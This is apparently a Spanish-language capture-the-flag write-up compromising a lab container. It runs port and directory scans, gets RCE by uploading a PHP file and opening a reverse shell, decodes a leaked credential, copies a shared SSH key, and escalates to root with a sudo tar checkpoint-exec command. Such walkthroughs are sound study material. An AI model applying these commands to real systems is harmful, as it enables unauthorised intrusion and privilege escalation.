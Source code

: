 ## Enumeracion de Puertos, Servicios y Versiones

```ruby
nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN nmap
```
```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 09:42 -03
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 1d:4a:16:27:ad:b8:0b:aa:28:64:b0:10:3b:be:79:1c (ECDSA)
|_  256 0b:0f:11:d6:5a:e9:f5:25:c8:17:0d:71:c1:29:c9:53 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: CyberLand Labs - Innovaci\xC3\xB3n en Ciberseguridad
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.53 seconds
```

comienzo chequeando el servicio web

![image](https://github.com/user-attachments/assets/232202bc-57e8-46c9-8f93-a854a2b9d69c)

realizo fuzzing web

```ruby
feroxbuster -u 'http://172.17.0.2' -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,bak,db,py,html,js,jpg,png,git,sh -t 200 --random-agent --no-state -d 10
```
```bash
                                                                                                                                                                          
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ Random
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [txt, php, bak, db, py, html, js, jpg, png, git, sh]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 10
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      275c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET       65l      221w     3010c http://172.17.0.2/index.html
200      GET      158l      327w     2870c http://172.17.0.2/styles.css
200      GET       44l      152w     1749c http://172.17.0.2/script.js
200      GET       27l       54w      826c http://172.17.0.2/contact.html
200      GET       39l       81w     1327c http://172.17.0.2/team.html
200      GET       29l       67w      931c http://172.17.0.2/blog.html
200      GET      796l     4529w   371895c http://172.17.0.2/logo.png
301      GET        9l       28w      310c http://172.17.0.2/uploads => http://172.17.0.2/uploads/
200      GET     6186l    35127w  2810752c http://172.17.0.2/banner.png
200      GET       65l      221w     3010c http://172.17.0.2/
[####################] - 67s  2491836/2491836 0s      found:10      errors:0      
[####################] - 67s  2491548/2491548 37308/s http://172.17.0.2/ 
[####################] - 0s   2491548/2491548 1245774000/s http://172.17.0.2/uploads/ => Directory listing (add --scan-dir-listings to scan)
```
veo que existe el directorio `/uploads` por lo que imagino que de alguna forma podre cargar archivos solo que no veo el panel de carga, asi que despues de chequear el script `js` 
observo algo interesante

![image](https://github.com/user-attachments/assets/fde9add8-ea37-402b-8af9-a343a5c6ee31)

si que existe un panel de carga y despues de varios testeos accedo en `http://172.17.0.2/#fileUpload` y al chequear su codigo fuente observo

![image](https://github.com/user-attachments/assets/a0f159d4-159e-4081-9f4d-69fc001aabfe)

ya tengo localizado el panel de carga asi que accedo `http://172.17.0.2/m4ch1n3_upload.php`

![image](https://github.com/user-attachments/assets/d3a0fba2-acaa-4b84-b71c-9a02042e0f9c)

aqui me cargo un archivo php malicioso, sube sin problema alguna y obtengo una `rce`

![image](https://github.com/user-attachments/assets/04fa554f-aed6-41b8-9462-6b2064a91343)

me envio una `revershell` y obtengo acceso al sistema

## Escalada de Privilegios

### www-data

tratamiento de la tty

```bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```
exiten los siguientes usuarios en el sistema: `charlie`, `bob` & `alice`; busco archivos en el sistema que pertenezcan a alguno de estos usuarios pero sin resultado, en cambio al buscar
por `www-data` me consigo con un archivo de `log`

![image](https://github.com/user-attachments/assets/3d977a3b-91f1-4e70-b50e-60fbd2cc14c1)

decodifico la cadena que parece ser `base64`

```ruby
echo 'YWxpY2U6czNjcjN0cEBzc3cwcmReNDg3' |base64 -d
```

obtengo credenciales para el user `alice`

### alice

consigo la `flag` 

![image](https://github.com/user-attachments/assets/860e89cd-d10f-4c8a-bfcd-d974a5e58a3b)

consigo un reporte de incidentes que tiene buena innformacion

```bash
=== INCIDENT REPORT ===
Archivo generado automaticamente por el sistema de auditoria interna de CyberLand Labs.

Fecha: 2023-11-22  
Auditor Responsable: Alice Carter  
Asunto: Configuracion Erronea de Claves SSH  

=== DESCRIPCION ===  
Durante una reciente auditoria de seguridad en nuestro servidor principal, descubrimos un grave error de configuracion en el sistema de autenticacion SSH. El problema parece originarse en un script automatizado utilizado para generar claves RSA para los usuarios del sistema.

En lugar de crear claves unicas para cada usuario, el script genero una unica clave `id_rsa` y la replico en todos los directorios de usuario en el servidor. Ademas, la clave esta protegida por una passphrase que, aunque tecnicamente existe, no ofrece ningun nivel real de seguridad.

=== HALLAZGO ADICIONAL ===  
Durante el analisis, encontramos que la passphrase de la clave privada del usuario `bob` se almaceno accidentalmente en un archivo temporal en el sistema. El archivo no ha sido eliminado, lo que significa que la passphrase esta ahora expuesta.

**Passphrase del Usuario `bob`:** `cyb3r_s3curity`

=== DETALLES DE LA CONFIGURACION ===  
Clave Privada: id_rsa  
Passphrase: cyb3r_s3curity  
Ubicacion: Copiada en todos los directorios `/home/<usuario>/.ssh/`

=== CONSECUENCIAS ===  
1. **Perdida de Privacidad**: Todos los usuarios comparten la misma clave, lo que significa que cualquiera puede autenticarse como cualquier otro usuario si obtiene acceso a la clave.  

=== POSIBLES SOLUCIONES ===  
- Implementar un sistema centralizado de gestion de claves.  
- Forzar a los usuarios a cambiar sus claves regularmente.  
- Actualizar las politicas internas para prohibir el uso de scripts inseguros en la configuracion de credenciales.  

=== NOTA FINAL ===  
Este incidente pone de manifiesto la importancia de revisar las configuraciones criticas en sistemas sensibles. Es crucial que todo el equipo de IT se mantenga alerta y que se implementen controles mas estrictos para evitar errores similares en el futuro.

--- FIN DEL INFORME ---
```

aqui el objetivo pasa a ser enviar a mi maquina atacante la clave `id_rsa` para autenticarme en el sistema como cualquier `user`

![image](https://github.com/user-attachments/assets/b4a3cdbe-1244-4d4f-8507-acc358afcb33)

le asigno los permisos necesarios a la llave para que pueda funcionar

```bash
chmod og-rwx id_rsa
```
procedo acceder al user `bob` via ssh

```
ssh -i id_rsa bob@172.17.2
```

la `passphrase` se encuentra en el reporte de `incidencias`

### bob



```
sudo -l

Matching Defaults entries for bob on e3bff6e1986b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User bob may run the following commands on e3bff6e1986b:
    (ALL) NOPASSWD: /bin/tar
```

escalamos a `root`

```ruby
sudo /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

![image](https://github.com/user-attachments/assets/e0899ef6-8e11-47f3-81cc-66f20b650541)

### root





















